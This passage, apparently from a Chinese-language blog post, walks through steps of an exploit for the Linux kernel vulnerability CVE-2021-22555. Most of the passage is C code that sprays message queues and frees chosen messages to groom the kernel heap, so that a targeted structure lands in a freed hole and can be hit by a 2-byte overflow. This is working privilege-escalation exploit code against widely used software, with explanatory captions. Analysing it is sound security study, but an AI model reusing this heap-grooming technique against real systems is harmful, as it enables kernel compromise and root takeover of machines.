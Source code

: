 ##### （3）辅助消息填充
为每个消息队列添加辅助消息，消息大小为0x400，消息标识与主消息对应。

```c
  printf("[*] Spraying secondary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_secondary, 0, sizeof(msg_secondary));
    *(int *)&msg_secondary.mtext[0] = MSG_TAG;
    *(int *)&msg_secondary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_secondary, sizeof(msg_secondary),
                  MTYPE_SECONDARY) < 0)
      goto err_rmid;
  }
```

![2](/images/posts/CVE-2021-22555/2.png)

##### （4）释放部分主消息

**目的**：释放第1024、2048、3072个主消息，获得0x1000内存空洞，希望被`xt_table_info`结构获得，这样就能利用2字节溢出写0。

```c
int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
  if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0) < 0) {
    perror("[-] msgrcv");
    return -1;
  }
  return 0;
}

  printf("[*] Creating holes in primary messages...\n");
  for (int i = HOLE_STEP; i < NUM_MSQIDS; i += HOLE_STEP) {
    if (read_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
        0)
      goto err_rmid;
  }
```

![3](/images/posts/CVE-2021-22555/3.png)
